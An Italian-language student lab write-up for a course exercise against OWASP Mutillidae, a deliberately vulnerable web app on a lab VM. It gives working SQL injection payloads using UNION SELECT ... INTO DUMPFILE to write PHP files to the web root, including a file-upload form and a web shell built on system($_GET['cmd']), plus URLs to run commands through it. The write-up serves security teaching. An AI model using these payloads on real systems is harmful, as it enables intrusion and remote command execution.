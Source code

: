 
## Esercizio 7

Questo esercizio fa rifermento alla pagina user-info `http://192.168.122.123/mutillidae/index.php?page=user-info.php`.


1. Lanciando un semplice comando `admin'` è possibile vedere i messaggi di errore generati. La consegna ci chiede di capire *dove sono memorizzati file php*. Dal messaggio di errore capiamo che si trovano in `http://SERVERIP/mutillidae/classes/`
2. La seconda parte ci chiede *Tramite la pagina User info è possibile memorizzare su file, usando l’operatore INTO DUMPFILE[ref], il contenuto di una query specifica
	1. L'idea è di scrivere un file php che ti dà la possibilità di creare caricare file nel server.
	2. Potresti provare a creare un file di test, per vedere se si riesce ad iniettare del codice php. Ecco un possibile codice php `<?php phpinfo(); ?>` 
	   Ora però la domanda è, come faccio ad inserire un nuovo file php? Il prof ci ha suggeruti una funzione chiamata `INTO DUMPFILE`.
	3. Ecco la query :

```sql
test' UNION ALL SELECT "<?php phpinfo(); ?>\n",NULL,NULL,NULL,NULL,NULL,NULL INTO DUMPFILE '/var/www/html/mutillidae/classes/upload_test.php'-- -
```

Poi apri il browser `http://192.168.122.123/mutillidae/classes/` e dovresti trovarti il tuo file `upload_test.php` caricato. Se lo apri dovresti vedere info su php, che è la funzione.


3. ***Come facciamo a sfruttare questa vulnerabilità?***
   Possiamo creare un file php contente un form che mi permette di caricare file e che faccia uso della funzione `move_uploaded_file` come suggerito dal prof.

Chatgpt ha suggerito la seguente cosa
```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    if (isset($_FILES['file'])) {
        $file_tmp = $_FILES['file']['tmp_name'];
        $file_name = basename($_FILES['file']['name']);
        $upload_dir = './uploads/';

        if (!is_dir($upload_dir)) {
            mkdir($upload_dir, 0777, true);
        }

        if (move_uploaded_file($file_tmp, $upload_dir . $file_name)) {
            echo "File caricato con successo: <a href='uploads/$file_name'>$file_name</a>";
        } else {
            echo "Errore durante il caricamento del file.";
        }
    }
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>File Upload</title>
</head>
<body>
    <h2>Carica un file</h2>
    <form action="upload.php" method="POST" enctype="multipart/form-data">
        Seleziona file:
        <input type="file" name="file">
        <input type="submit" value="Carica">
    </form>
</body>
</html>

```

Ma per poterla eseguire, devi metterla su una riga. E poi devi creare la query SQL facendo uso della UNION.

```sql
test' UNION ALL SELECT "<?php if($_SERVER['REQUEST_METHOD']=='POST'){if(isset($_FILES['file'])){$file_tmp=$_FILES['file']['tmp_name'];$file_name=basename($_FILES['file']['name']);$upload_dir='./uploads/';if(!is_dir($upload_dir)){mkdir($upload_dir,0777,true);}if(move_uploaded_file($file_tmp,$upload_dir.$file_name)){echo 'File caricato con successo: <a href=uploads/'.$file_name.'>'.$file_name.'</a>'; }else{echo 'Errore durante il caricamento del file.';}}}?><html><body><h2>Carica un file</h2><form action='upload.php' method='POST' enctype='multipart/form-data'><input type='file' name='file'><input type='submit' value='Carica'></form></body></html>\n",NULL,NULL,NULL,NULL,NULL,NULL INTO DUMPFILE '/var/www/html/mutillidae/classes/upload.php'-- -
```


Vedrai che già ti appare il form su OWASP, ma se provi ad andare dal brower, lo vediamo meglio `http://192.168.122.123/mutillidae/classes/upload.php`.



4. ***Manca l'ultima parte, quella di eseguire una web shell in PHP che mostri l’output del comandi bash inviati.***



Ecco cosa iniettare:
```sql
test' UNION ALL SELECT "<?php system($_GET['cmd']); ?>" INTO DUMPFILE '/var/www/html/mutillidae/classes/shell.php'-- -
```

Abbiamo iniettato il file `shell.php`. 
ATTENZIONE: se ci vai, non vedi nulla perché non ha niente in output, ma per interagirci devi passarci un parametro chiamato `cmd` da get:

Per vedere UID e GID, passare il comando `id`
`http://[IP-SERVER]/mutillidae/shell.php?cmd=id`


Ma ci puoi passare tutto quello che vuoi, tipo `ls, whoami` insomma comandi linux.
`http://192.168.122.123/mutillidae/classes/shell.php?cmd=ls`


